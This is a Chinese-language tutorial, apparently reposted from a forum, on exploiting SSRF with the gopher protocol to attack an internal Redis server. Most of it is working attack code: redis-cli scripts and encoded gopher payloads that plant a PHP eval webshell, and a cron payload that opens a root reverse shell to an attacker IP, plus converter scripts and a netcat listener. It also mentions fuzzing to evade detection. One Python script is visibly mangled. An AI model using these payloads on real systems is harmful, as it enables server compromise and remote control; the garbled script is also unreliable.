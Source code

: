 # gopher 攻击内网redis

> 原文：[https://www.zhihuifly.com/t/topic/3581](https://www.zhihuifly.com/t/topic/3581)

#### gopher 攻击内网redis

> 未授权访问redis条件存在限制，若开启了protected-mode，外网访问是不具有写入权限的；若绑定了127.0.0.1，那么外网将无法访问；但如果存在SSRF漏洞，那么通过Gopher协议可对本地redis进行攻击
> 
> Gopher协议是HTTP协议出现之前，在Internet上常常和常用的一个协议。当然现在Gopher协议已经慢慢淡出历史.Gopher
> 协议可以做很多事情，特别是在SSRF中可以发挥很多重要的作用。利用此协议可以攻击内网的FTP，Telnet，Redis，Memcache，也可以进行GET，POST请求。这无疑极大拓宽了SSRF的攻击面。
> 
> payload：gopher://www.0-sec.org:port/_payload

##### 写入webshell

将一下命令打包成gopher.sh文件

```
redis-cli -h $1 -p $2 set 1 '<?php eval($_POST["pass"]);?>'
redis-cli -h $1 -p $2 config set dir /var/www/html
redis-cli -h $1 -p $2 config set dbfilename bbb.php
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit 
```

使用socat进行端口转发

```
socat -v tcp-listen:4444,fork tcp-connect:localhost:6379 
```

将本地的4444端口转发到本地的6379端口。访问该服务器的4444端口，访问的其实是该服务器的6379端口。

执行`./gopher.sh 127.0.0.1 4444`，抓取到数据并写入`1.txt`：

![image](img/25203ca53ff651f9cfff06972886415a.png)

**将捕捉到的转换为gopher格式**

**python转换脚本：**

```
f = open('1.txt', 'r')
s = ''
for line in f.readlines():
        line = line.replace(r"\r", "%0d%0a")
        line = line.replace("\n", '')
        s = s + line
print s.replace("$", "%24") 
```

此处需要注意，使用python脚本将流量内容转换后，还需要将一句话中的`$、?、;、[、]`这几个字符url编码，否则会提示`curl: (3) [globbing] illegal character in range specification at pos 103`

如果写入免杀的一句话，一步步fuzz即可。

**模拟ssrf访问**：

```
[root@localhost xm]# curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a%243%0d%0aset%0d%0a%241%0d%0a1%0d%0a%2429%0d%0a%3c%3fphp eval(%24_POST%5b"pass"%5d)%3b%3f%3e%0d%0a*4%0d%0a%246%0d%0aconfig%0d%0a%243%0d%0aset%0d%0a%243%0d%0adir%0d%0a%2413%0d%0a/var/www/html%0d%0a*4%0d%0a%246%0d%0aconfig%0d%0a%243%0d%0aset%0d%0a%2410%0d%0adbfilename%0d%0a%247%0d%0abbb.php%0d%0a*1%0d%0a%244%0d%0asave%0d%0a*1%0d%0a%244%0d%0aquit%0d%0a' 
```

![image](img/43941514687041d5423bbd51761ade66.png)

成功在`/var/www/html/`下生成`bbb.php`

#### 反弹shell

> 文件名必须为root，此处靶机环境为centos7，其他Linux需要修改目录
> 
> 首先要明确第一点，用写入crontab的方式要求redis必须是root用户启动，否则无法正常执行

将下列内容写入gopher.sh中：

```
echo -e "\n\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.64.142 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit 
```

**本地监听**：

```
socat -v tcp-listen:4444,fork tcp-connect:localhost:6379 
```

执行`gopher.sh`并捕捉到流量，将其写入至`1.txt`：

![image](img/17caee7f9d4b4e6b6fcc522b7e89ac91.png)

**将捕捉到的转换为gopher格式**

**python转换脚本：**

```
#coding: utf-8
import sys

exp = ‘’ `with open(sys.argv[1]) as f:

for line in f.readlines():

if line[0] in ‘><+’:

continue

elif line[-3:-1] == r’\r’:

if len(line) == 3:

exp = exp + ‘%0a%0d%0a’

else:

line = line.replace(r’\r’, ‘%0d%0a’)

line = line.replace(’\n’, ‘’)

exp = exp + line

elif line == ‘\x0a’:

exp = exp + ‘%0a’

else:

line = line.replace(’\n’, ‘’)

exp = exp + line

print exp` 
```

转换结果为：

```
*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$63%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/192.168.64.142/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a%0a%0a 
```

P.S. 需要注意的是，如果要换IP和端口，前面的$63也需要更改，$63表示字符串长度为63个字节

**模拟ssrf访问**：

```
[root@localhost xm]# curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$63%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/192.168.64.142/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a%0a%0a'
* About to connect() to 127.0.0.1 port 6379 (#0)
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
+OK
+OK
+OK
+OK 
```

在攻击机中`nc -lvp 2333`获得root权限shell

![image](img/30983be7778194947bb7588c7fcb8faa.png)